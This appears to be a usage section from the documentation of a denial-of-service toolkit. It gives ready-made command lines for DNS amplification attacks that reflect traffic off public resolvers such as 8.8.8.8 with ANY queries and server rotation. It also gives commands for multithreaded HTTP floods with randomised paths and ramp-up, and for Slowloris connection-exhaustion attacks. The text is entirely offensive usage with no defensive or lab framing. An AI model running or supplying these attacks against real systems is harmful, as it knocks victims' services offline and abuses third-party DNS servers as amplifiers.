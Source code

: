 ### Amplification Attack Examples

#### DNS Amplification Examples
```bash
# Basic DNS amplification
python src/cli.py dns-amplification \
    --target 192.168.1.100 \
    --dns-server 8.8.8.8 \
    --query-domain example.com

# Advanced DNS amplification with multiple servers
python src/cli.py dns-amplification \
    --target 192.168.1.100 \
    --dns-servers-file dns_servers.txt \
    --query-domain example.com \
    --query-type ANY \
    --recursive \
    --rotate-dns \
    --verify-amplification \
    --amplification-threshold 10.0
```

### Application-Layer Attack Examples

#### HTTP DoS Examples
```bash
# Basic HTTP DoS
python src/cli.py http-dos \
    --target http://example.com \
    --threads 10

# Advanced HTTP DoS
python src/cli.py http-dos \
    --target http://example.com \
    --method POST \
    --path /api/endpoint \
    --headers '{"X-Custom": "value"}' \
    --cookies '{"session": "abc123"}' \
    --data '{"key": "value"}' \
    --random-path \
    --random-query \
    --ramp-up 30 \
    --verify-success \
    --log-file /path/to/log.txt
```

### Slowloris Attack
```bash
# Basic Slowloris
python src/cli.py slowloris \
    --target example.com \
    --port 80 \
    --connections 150

# Advanced Slowloris
python src/cli.py slowloris \
    --target example.com \
    --port 80 \
    --connections 200 \
    --ssl \
    --keep-alive \
    --header-size 15 \
    --random-interval \
```